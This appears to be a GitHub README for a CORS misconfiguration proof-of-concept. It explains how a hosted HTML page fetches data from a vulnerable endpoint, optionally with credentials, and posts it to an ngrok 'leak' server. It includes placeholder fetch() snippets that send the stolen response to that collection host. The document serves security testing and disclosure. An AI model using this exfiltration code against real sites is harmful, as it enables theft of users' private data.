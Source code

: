# 🚨 CORS API PoC

This is a **Proof-of-Concept (PoC)** to demonstrate how **Cross-Origin Resource Sharing (CORS)** misconfigurations can allow unauthorized websites to fetch sensitive data from a vulnerable domain.

---

## ⚠️ Disclaimer

- This PoC is for **educational** and **responsible disclosure** purposes **only**.
- Do **not** use it against any system without **explicit permission**.
- The domain `example.com` is used as a **placeholder**.  
  Always replace it with the **actual vulnerable domain** during authorized testing.
- Similarly, replace the **ngrok URL** with your own **controlled server** to collect PoC data during testing.

---

## 🧪 How It Works

1. The HTML page runs a **JavaScript `fetch()` request** to a target endpoint vulnerable to CORS misconfiguration.
2. If the target server allows cross-origin requests without proper validation, the script:
   - **Fetches sensitive data** (even with credentials, if allowed).
   - **Displays it** in the browser.
   - Optionally **sends it** to your own controlled server (e.g., via `ngrok`) for demonstration.

---

## 🛠 Setup Instructions

1. **Clone this repo** or copy `index.html` to your machine.
2. **Replace placeholders** in the script:
   ```js
   fetch("https://example.com/api/v2/status.json", { ... })


🔁 Replace example.com with the actual target domain.

🔁 Replace https://your-ngrok-server.ngrok-free.app/leak with your ngrok or Flask server URL.

Host the HTML file:

GitHub Pages

Local HTTP server (e.g., python3 -m http.server)

Or directly open in browser

View the result:

On successful CORS exploitation, sensitive content will appear in the textarea.

A POST request will be made to your leak endpoint with the response body.   


🧰 Example Use Case (with placeholders)

   fetch("https://example.com/api/v2/status.json", {
  method: "GET"
  // credentials: "include"  // Uncomment if testing for session-based data leaks
});

fetch("https://your-ngrok-server.ngrok-free.app/leak", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({ leaked: data })
});


📬 Contact
If you're the security team reviewing this PoC, feel free to reach out via email for clarification or technical questions related to this demonstration.

 
